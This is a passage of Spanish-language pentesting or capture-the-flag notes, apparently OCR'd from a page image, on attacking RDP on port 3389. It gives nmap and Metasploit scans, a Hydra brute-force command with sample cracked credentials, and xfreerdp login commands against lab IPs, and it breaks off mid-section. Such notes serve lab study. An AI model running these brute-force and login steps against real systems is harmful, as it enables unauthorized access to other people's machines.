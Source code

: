 **Buscar scripts SMB:**  
https://nmap.org/nsedoc/scripts/

---

## RDP (Puerto 3389)

**Detectar RDP en la red:**
```bash
nmap -p3389 -T4 -n -sS 192.168.1.12
```
_Ejemplo output:_
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```

**Verificar RDP con Metasploit:**
```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 192.168.1.12
set RPORT 3389
run
```
_Ejemplo output:_
```
[+] 192.168.1.12:3389 is running RDP
```

**Fuerza bruta RDP con Hydra:**
```bash
hydra -L diccionario.txt -P diccionario_password.txt rdp://192.168.1.12 -s 3389
```
_Ejemplo output:_
```
[3389][RDP] host: 192.168.1.12 login: admin password: 123456
```

**Acceder con xfreerdp:**
```bash
xfreerdp /u:usuario /p:password /v:192.168.1.12:3389
```

**Buscar la flag (generalmente en C:\):**
Comandos FreeRDP
Para conectar y redirigir unidades con FreeRDP, utiliza:

Instalar FreeRDP (si no está instalado)

bash
sudo apt update
sudo apt install freerdp2-x11
Conexión básica a RDP

bash
xfreerdp /v:10.10.55.17
Conexión con usuario y contraseña


[^1]: image.jpg